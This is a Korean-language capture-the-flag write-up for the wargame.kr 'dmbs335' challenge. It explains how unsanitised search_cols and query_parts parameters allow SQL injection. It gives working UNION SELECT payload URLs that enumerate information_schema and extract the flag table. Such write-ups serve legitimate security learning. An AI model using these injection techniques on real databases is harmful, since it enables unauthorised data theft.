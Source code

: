 
> Search_cols 변수 > | 값을 넣지않고 아무 값을 입력하면 explode 구문 부분에서 $cols 에 array("Test")을
> 반환할 것이다.

foreach 문 || subject,content,writer 값이 arr에 담겨 있으면 True or False 
col이 True면 query_parts에 값을 넣어준다.



If문에서 next if 로 넘어가면 where_clasue로 넘어가기떄문에 SQL injection을 할 수 있다.



그럼 바로 쿼리문을 넘어보자.
search_cols = Test는 들어가야하는 값이라고 할 수 있고 query_parts= ~~ 하면 된다.

> SELECT * FROM board WHERE ~~ ORDER BY IDX DESC;



#### Let's query!

> http://wargame.kr:8080/dmbs335/?search_cols=Test&query_parts=True%20union%20select%201,2,3,4%20--%20- 

<img width="463" alt="1" src="https://user-images.githubusercontent.com/40850499/43044521-69d159ca-8de2-11e8-908a-6f7f646cd5b0.png">



information_schema로 tables value를 출력한다.

> http://wargame.kr:8080/dmbs335/?search_cols=Test&query_parts=True%20union%20select%20table_name,2,3,4%20from%20information_schema.tables--%20-
>
> 

<img width="600" alt="2" src="https://user-images.githubusercontent.com/40850499/43044536-8b527eda-8de2-11e8-874f-26721abf8a44.png">



flag가 담긴 테이블을 찾았다~~ 
저것을 보게되면!

> http://wargame.kr:8080/dmbs335/?search_cols=Test&query_parts=True%20union%20select%20column_name,column_type,3,4%20from%20information_schema.columns%20where%20table_name=%27Th1s_1s_Flag_tbl%27--%20-

<img width="508" alt="3" src="https://user-images.githubusercontent.com/40850499/43044541-b440b672-8de2-11e8-883b-c095105dcc6e.png">

DB가 문자열에 128바이트 할당.

> http://wargame.kr:8080/dmbs335/?search_cols=Test&query_parts=True%20union%20select%20f1ag,2,3,4%20from%20Th1s_1s_Flag_tbl--%20-

<img width="738" alt="4" src="https://user-images.githubusercontent.com/40850499/43044552-d94b5a12-8de2-11e8-9732-e291f9f73558.png">

